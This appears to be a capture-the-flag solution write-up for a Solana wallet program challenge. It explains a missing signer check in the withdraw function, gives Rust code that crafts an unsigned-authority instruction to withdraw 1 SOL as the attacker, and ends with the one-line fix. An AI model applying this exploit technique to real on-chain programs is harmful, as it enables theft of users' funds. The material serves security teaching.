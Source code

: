 # Solution - Missing Signer Check

The vulnerability in this contract is a missing signer check in the withdraw function:

The wallet authority does not have to sign the execution of the instruction. This has the effect, that everybody can pretend to be the authority.


```rust
use borsh::BorshSerialize;
use level1::WalletInstruction;
use solana_program::instruction::{AccountMeta, Instruction};

fn hack(env: &mut LocalEnvironment, challenge: &Challenge) {
    let tx = env.execute_as_transaction(
        // we construct the instruction manually here
        // because the level1::withdraw function sets the is_signer flag on the authority
        // but we don't want to sign 
        &[Instruction {
            program_id: challenge.wallet_program,
            accounts: vec![
                AccountMeta::new(challenge.wallet_address, false),
                AccountMeta::new(challenge.wallet_authority, false),
                AccountMeta::new(challenge.hacker.pubkey(), true),
                AccountMeta::new_readonly(system_program::id(), false),
            ],
            data: WalletInstruction::Withdraw { amount: sol_to_lamports(1.0) }.try_to_vec().unwrap(),
        }],
        &[&challenge.hacker],
    );
    tx.print_named("haxx");
}
```

# Mitigation

By adding a check in the `withdraw` function, to check if the `wallet_info` is signed this vulnerability can be prevented:

```rust
assert!(authority_info.is_signer);
```